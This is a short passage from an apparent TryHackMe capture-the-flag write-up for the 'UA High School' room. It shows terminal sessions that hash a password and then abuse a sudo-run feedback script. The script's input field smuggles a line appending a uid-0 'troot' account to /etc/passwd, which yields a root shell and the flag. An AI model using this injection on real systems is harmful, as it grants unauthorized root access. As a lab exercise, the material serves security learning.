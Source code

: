 ```
$ mkpasswd -m md5crypt -s
Password: 123456
$1$uLasJCQF$YvDRzC8NMZBr6TDprT7yM.
```

```
$ cd /opt/NewComponent/

$ sudo ./feedback.sh 
Hello, Welcome to the Report Form       
This is a way to report various problems
    Developed by                        
        The Technical Department of U.A.
Enter your feedback:
'troot:$1$ITaSSW7T$zr47/s8ZvVuyVMTCn/Yb00:0:0:troot:/root:/bin/bash' >> /etc/passwd
It is This:
Feedback successfully saved.
deku@myheroacademia:/opt/NewComponent$ su troot
Password: 
root@myheroacademia:/opt/NewComponent# cd
root@myheroacademia:~# ls
root.txt  snap
root@myheroacademia:~# cat root.txt 
root@myheroacademia:/opt/NewComponent# cat /root/root.txt
__   __               _               _   _                 _____ _          
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                  _    _ 
             _   _        ___    | |  | |
            | \ | | ___  /   |   | |__| | ___ _ __  ___
            |  \| |/ _ \/_/| |   |  __  |/ _ \ '__|/ _ \
            | |\  | (_)  __| |_  | |  | |  __/ |  | (_) |
            |_| \_|\___/|______| |_|  |_|\___|_|   \___/ 

THM{Y0U_4r3_7h3_NUm83r_1_H3r0}

root@myheroacademia:~# 
```





GOT HELP FROM:
https://jaxafed.github.io/posts/tryhackme-ua_high_school/